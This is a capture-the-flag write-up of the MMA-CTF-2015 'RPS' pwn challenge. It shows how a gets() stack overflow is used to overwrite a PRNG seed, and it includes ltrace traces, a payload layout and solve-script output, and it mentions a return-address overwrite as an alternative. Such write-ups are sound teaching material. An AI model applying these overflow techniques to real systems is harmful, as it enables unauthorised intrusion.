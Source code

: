 # MMA-CTF-2015: RPS

**Category:** Pwn
**Points:** 50
**Solves:** 171
**Description:**

> Win 50 games in a row!
>
> `nc milkyway.chal.mmactf.link 1641`
>
> [rps.7z](rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e)

## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* [b01lers](https://b01lers.net/challenges/MMA%20CTF%202015/RPS%20%28rock%20paper%20scissors%29/58/) (Common understanding)
* <http://iamlazlow.blogspot.com/2015/09/mma-ctf-2015-rps-pwn-warmup.html> (C Code)
* <http://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/> (IDA decompiled binary, ctypes and pwntools usage)
* <https://jkrshnmenon.wordpress.com/2015/09/09/mmactf15-rps-write-up/> (Alternative solution)
* <http://trich.im/?p=47> (IDA decompiled binary, Alternative solution)
* <http://tungpun.github.io/blog/2015/09/09/write-up--mmactf-2015-pwn-rps/>
* [Japanese](http://charo-it.hatenablog.jp/entry/2015/09/08/005012) (Reversed Source code in C)
* <https://gist.github.com/Bono-iPad/42434cdfff084c637d3b>

### Meta

Keywords:

* Stack Buffer Overflow (`sbo`) in `gets`
* Pseudo Random Number Generator (`prng`)
* Alternative solutions

We are given a 7z archive that contains a x86-64bit non-stripped ELF for Linux:

```bash
$ file rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e
rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e: 7-zip archive data, version 0.3
$ 7z x rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e -oout

7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
p7zip Version 9.20 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,1 CPU)

Processing archive: rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e

Extracting  rps/rps
Extracting  rps

Everything is Ok

Folders: 1
Files: 1
Size:       9664
Compressed: 2944
$ cd out/rps/
$ file rps
rps: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=8811962c746e1d068a5fa5b4deb7cb043c30146f, not stripped
```

Running it:

```bash
$ ./rps 
What's your name: cheater
Hi, cheater
Let's janken
Game 1/50
Rock? Paper? Scissors? [RPS]R
Rock-Scissors
You win!!
Game 2/50
Rock? Paper? Scissors? [RPS]R
Rock-Paper
You lose
```

Looks like we have to win 50 rounds of Rock-Paper-Scissors to (maybe) get the flag!

Let's run it with `ltrace -f`:

```bash
$ ltrace -f ./rps 
[pid 2700] __libc_start_main(0x400806, 1, 0x7fff602da5a8, 0x400af0 <unfinished ...>
[pid 2700] fopen("/dev/urandom", "r")                 = 0x251e010
[pid 2700] fread(0x7fff602da4a0, 4, 1, 0x251e010)     = 1
[pid 2700] fclose(0x251e010)                          = 0
[pid 2700] printf("What's your name: ")               = 18
[pid 2700] fflush(0x7f5b0219a400What's your name: )                     = 0
[pid 2700] gets(0x7fff602da470, 0x7f5b0219b9e0, 0, -1cheater
) = 0x7fff602da470
[pid 2700] printf("Hi, %s\n", "cheater"Hi, cheater
)              = 12
[pid 2700] puts("Let's janken"Let's janken
)                       = 13
[pid 2700] fflush(0x7f5b0219a400)                     = 0
[pid 2700] srand(0x24e2002, 0x7f5b0219b9e0, 0, -1)    = 0
[pid 2700] printf("Game %d/50\n", 1Game 1/50
)                  = 10
[pid 2700] printf("Rock? Paper? Scissors? [RPS]")     = 28
[pid 2700] fflush(0x7f5b0219a400Rock? Paper? Scissors? [RPS])                     = 0
[pid 2700] getchar(1, 0x7f5b0219b9e0, 0, -1R
)          = 82
[pid 2700] rand(0, 0x7f5b0219b9f0, 82, -1)            = 0x3d958a93
[pid 2700] printf("%s-%s\n", "Rock", "Rock"Rock-Rock
)          = 10
[pid 2700] puts("Draw"Draw
)                               = 5
[...]
[pid 2700] puts("You lose"You lose
)                           = 9
[pid 2700] fflush(0x7f5b0219a400)                     = 0
[pid 2700] +++ exited (status 1) +++
```

We notice:

* After opening `/dev/urandom` with `fopen`, `4` bytes from it are read into the stack at `0x7fff602da4a0`
* Our username input is read with `gets`, which hints at a Stack Buffer Overflow
* Before the first round starts, `srand` is called.

Disassembling it with `radare2` (`main` is long, only showing part of it):

![](./part-main.png)

We see the following:

* At `0x00400825` the address `rbp-local_4` (`local_4` is `rbp-0x20`) is stored into `rax` with `lea` (load effective address)
* `fread` is uses this address as the first parameter (`mov rdi, rax`, `rdi` here is by calling convention the first parameter), which means it stores the read data into a buffer located at the address
* `gets` reads our input into `rbp-local_10`, with `local_10`==`0x50`, so below the buffer address of the previous `fread` buffer
* `srand` uses the `fread` buffer as seed

Using `IDA`, you can generate decompiled C source code representing the binary as seen in [this](https://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/) or [this writeup](http://trich.im/?p=47). [This Japanese writeup](http://charo-it.hatenablog.jp/entry/2015/09/08/005012) even created very readable C source code.

Looking at the decompiled binary, we see that we should overwrite the `srand` seed with our username input.
We do this, because setting the same seed for `srand`, a "bad" Pseudo Random Number Generator, causes `rand` to generate the same random number sequences  - and thus we can predict the outcome and win the game!

As [this writeup](https://b01lers.net/challenges/MMA%20CTF%202015/RPS%20%28rock%20paper%20scissors%29/58/) suggests, the values for `R`ock, `P`aper or `S`cissors are `0`, `1` and `2` (output of `rand() % 3`).

The offset differences between our input buffer and the `srand` buffer are `0x50-0x20=0x30`=48 bytes. This means providing `4` bytes after a `48` string payload overwrites the seed value.

We now just have to pre-calculate sequences by either writing a C program, as in [this writeup](http://iamlazlow.blogspot.de/2015/09/mma-ctf-2015-rps-pwn-warmup.html) or use the `ctypes` module in python as in [this](https://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/) or [this writeup](https://gist.github.com/Bono-iPad/42434cdfff084c637d3b).

[This python script](solve.py) uses the latter solution:

```bash
$ p solve.py  
[+] Opening connection to localhost on port 6666: Done
[+] Recieving all data: Done (120B)
[*] Closed connection to localhost port 6666
What's your name: Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA????
Let's janken
Game 1/50
Rock? Paper? Scissors? [RPS]Paper-Rock
You win!!
Game 2/50
Rock? Paper? Scissors? [RPS]Paper-Rock
You win!!
Game 3/50
[...]
Game 50/50
Rock? Paper? Scissors? [RPS]Rock-Scissors
You win!!
Congrats AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA????!!!!
MMA{treed_three_girls}
```

The flag is `MMA{treed_three_girls}`.

PS: Another alternative solution such as in [this](https://jkrshnmenon.wordpress.com/2015/09/09/mmactf15-rps-write-up/) or [this writeup](http://trich.im/?p=47) overwrite the return address `RIP` with the address `0x00400aa4` (or rather some instructions above, since this address contains a `0x0a` byte, forcing `gets` to stop reading) that opens the flag file `flag.txt`, reads the flag and prints it to the user.

## Other write-ups and resources

* [b01lers](https://b01lers.net/challenges/MMA%20CTF%202015/RPS%20%28rock%20paper%20scissors%29/58/)
* <http://iamlazlow.blogspot.com/2015/09/mma-ctf-2015-rps-pwn-warmup.html>
* <https://0x90r00t.com/2015/09/08/mma-2015-pwnwarmup-rps-write-up/>
* <http://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/>
* <https://jkrshnmenon.wordpress.com/2015/09/09/mmactf15-rps-write-up/>
* <https://ctf-team.vulnhub.com/mma-1st-2015-rps/>
* <http://trich.im/?p=47>
* <http://tungpun.github.io/blog/2015/09/09/write-up--mmactf-2015-pwn-rps/>
* [Japanese](http://charo-it.hatenablog.jp/entry/2015/09/08/005012)
* [Japanese](http://mage-ctf-writeup.blogspot.de/2015/09/mma-ctf-1st-2015.html)
* [Japanese](https://gist.github.com/Bono-iPad/42434cdfff084c637d3b)
* [Japanese](http://kusano-k.hatenablog.com/entry/2015/09/08/014315)
* [Russian](http://countersite.org/articles/reverse_engineering/31-rps-pwn-mmactf-2015-write-up.html)
* [Polish](http://forum.4programmers.net/Spolecznosc/258069-writeup_mma_ctf_2015)
